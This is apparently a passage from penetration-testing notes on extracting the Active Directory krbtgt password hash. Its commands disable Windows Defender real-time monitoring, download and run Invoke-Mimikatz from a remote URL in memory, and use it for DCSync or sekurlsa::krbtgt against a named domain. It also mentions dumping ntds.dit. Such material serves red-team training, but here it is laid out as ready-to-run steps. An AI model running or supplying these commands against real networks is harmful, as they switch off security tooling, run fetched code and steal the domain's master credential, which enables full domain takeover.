

Obtain Krbtgt secret key
0. Disable Windows Defender
PS> Set-MpPreference -DisableRealtimeMonitoring $true #from Windows Server 2016
1. Obtain Krbtgt secret key(hash)
◇ Perform DcSync from a Windows machine of the Domain
The only pre-requisite to worry about is that you have an account with rights to perform domain replication.
We can perform DCSync if we have “Replicating Directory Changes” permissions on the Windows Server:
Server Manager → Tools → Active Directory Users and Computers → View → Advanced Features → Right click on the domain(e.g.:DANIELE.local) → proprieties → security

PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 ");Invoke-Mimikatz -Command '"lsadump::dcsync /domain:daniele.local /user:krbtgt"'

◇ On the Domain Controller as Domain Admin to obtain krbtgt secret key(hash)
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 ");Invoke-Mimikatz -Command '"sekurlsa::krbtgt"'
◇ On the Domain Controller extract hashes from ntds.dit file
We have seen it in the chapter “Dump hashes from Windows machines”
Bibliography:
• https://stealthbits.com/blog/extracting-user-password-data-with-mimikatz-dcsync/
• https://adsecurity.org/?p=1729